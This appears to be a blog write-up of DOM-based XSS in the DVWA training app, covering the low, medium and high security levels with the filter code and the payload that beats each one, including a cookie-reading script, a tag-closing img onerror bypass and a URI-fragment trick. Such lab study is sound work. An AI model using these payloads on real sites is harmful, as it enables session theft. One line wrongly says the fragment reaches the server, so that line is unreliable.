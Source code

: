 +++
date = '2025-10-20T19:54:51+07:00'
draft = false
title = 'DVWA XSS DOM Low/Medium/High Security'
tags = ['DVWA']
description = 'Leveraging XSS Scripting to get our desired data.'

[cover]
  image = '/images/posts/dvwa-cover.png'
  alt = 'DVWA XSS DOM'
  caption = 'DVWA XSS DOM'
  relative = false
+++

## Description

**Vulnerability:** XSS (DOM)  
**Impact:** Leveraging XSS Scripting to get our desired data.

---

## LOW Security Level

This source code doesn't have any checks:

```php
<?php

# No protections, anything goes

?>
```

And the choosing language functionality take the value and add them to the query param `default` on the URL: `/vulnerabilities/xss_d/?default=<value>`, the web app with take the `<value>` render them to the first `option` element:

![Guide image](/images/posts/dvwa-xss-dom-1.png)

You can try type a Javascript code to get cookie of the browser: `?default=<script>alert(document.cookie)</script>`

![Guide image](/images/posts/dvwa-xss-dom-2.png)

From this you can make a request to our own server and we can retreive the cookie by triggering users to enter that URL.

## MEDIUM Security Level

This source code have 1 check:

```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
```

It don't allow `<script` so I try use another method of XSS which is the `<img src=x onerror=alert(1)>` however it doesn't work

![Guide image](/images/posts/dvwa-xss-dom-3.png)

The HTML code is:

```html
<option value="%3Cimg%20src=x%20onerror=alert(1)%3E"></option>
```

For somehow, the `img` tag isn't rendered in the `option` element it just appears in the `value` attribute. I examine the HTML and Javascript, I found this Javascript used to render the value of `default` query param to HTML.

```html
<select name="default">
    <script>
        if (document.location.href.indexOf('default=') >= 0) {
            var lang = document.location.href.substring(
                document.location.href.indexOf('default=') + 8,
            );
            document.write("<option value='" + lang + "'>" + decodeURI(lang) + '</option>');
            document.write("<option value='' disabled='disabled'>----</option>");
        }

        document.write("<option value='English'>English</option>");
        document.write("<option value='French'>French</option>");
        document.write("<option value='Spanish'>Spanish</option>");
        document.write("<option value='German'>German</option>");
    </script>
</select>
```

Therefore, from here I trigger a payload to close the `option` tag first then close `select` tag then render my `img`: `?default=</option></select><img src=x onerror=alert(document.cookie)>`

![Guide image](/images/posts/dvwa-xss-dom-4.png)

## HIGH Security Level

The check is now stricter:

```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
```

So now there is not trick to do to exploit however when I read one of the resources: [https://owasp.org/www-community/attacks/DOM_Based_XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS) I found the URI Fragments attack which we can use this payload to run Javascript:

```
#default=<script>alert(document.cookie)</script>
```

This payload will bypass the server protection since the `default` value will now be sent to the server by browser.

Result:

![Guide image](/images/posts/dvwa-xss-dom-5.png)

## Resources

-   https://owasp.org/www-community/attacks/xss/
-   https://owasp.org/www-community/attacks/DOM_Based_XSS
-   https://www.acunetix.com/blog/articles/dom-xss-explained/

